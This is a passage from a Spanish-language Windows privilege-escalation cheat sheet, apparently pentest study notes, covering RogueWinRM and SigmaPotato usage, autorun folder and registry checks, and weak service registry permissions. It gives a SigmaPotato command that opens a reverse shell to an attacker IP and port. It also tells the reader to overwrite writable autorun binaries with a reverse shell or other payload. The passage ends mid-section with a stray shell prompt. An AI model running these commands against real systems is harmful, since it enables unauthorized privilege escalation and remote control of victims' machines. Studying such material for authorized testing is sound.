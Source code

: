 ```powershell
.\RogueWinRM.exe -p "C:\temp\payload.exe"
```

###### SigmaPotato.exe

> *Windows 10 (todas las versiones, incluidas las compilaciones posteriores a 1809) y Windows Server 2012/2016/2019*

> https://github.com/tylerdotrar/SigmaPotato

```powershell
# Ejecutar un comando
./SigmaPotato.exe <command>


# Establecer una reverse shell con PowerShell
./SigmaPotato.exe --revshell <ip_addr> <port>
```
##### Autorun
Los Autorun en Windows son una característica que permite a los programas o scripts ejecutarse automáticamente cuando el sistema operativo se inicia o cuando se conecta un dispositivo externo, como una unidad USB o un disco óptico. Esta funcionalidad es útil para tareas automatizadas, pero también puede ser explotada por malware si no se configura correctamente.

**Carpetas a chequear**

```powershell
C:\Users\[Usuario]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
C:\Program Files\Autorun Program\
```
**Registros de Windows**

```powershell
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

Get-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
Get-ItemProperty -Path "HKLM:\Software\Microsoft\Windows\CurrentVersion\Run"
```
Si hay algun programa de ejecución automática, es posible que pueda sobreescribirse el binario.

Podemos utilizar `accessckk.exe` de SysInternals o `icacls` para comprobar los permisos del directorio.

```powershell
icacls C:\Users\[Usuario]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Si alguno de los archivos se puede escribir, se puede sobrescribir con una reverse shell o algun otro payload que nos permita escalar privilegios.

##### ACL de registro permisivas

Si una cuenta de usuario puede registrar servicios, entonces podemos crear un servicios malicioso para realizar una tarea privilegiada.

```powershell
PS C:\> accesschk.exe /accepteula "user" -kvuqsw hklm\System\CurrentControlSet\services

Accesschk v6.13 - Reports effective permissions for securable objects
Copyright ⌐ 2006-2020 Mark Russinovich
Sysinternals - www.sysinternals.com

RW HKLM\System\CurrentControlSet\services\regsvc
        KEY_ALL_ACCESS

<SNIP>
```
###### Cambiar ImagePath con PowerShell


[MS02]: PS C:\Users\elliot\Documents>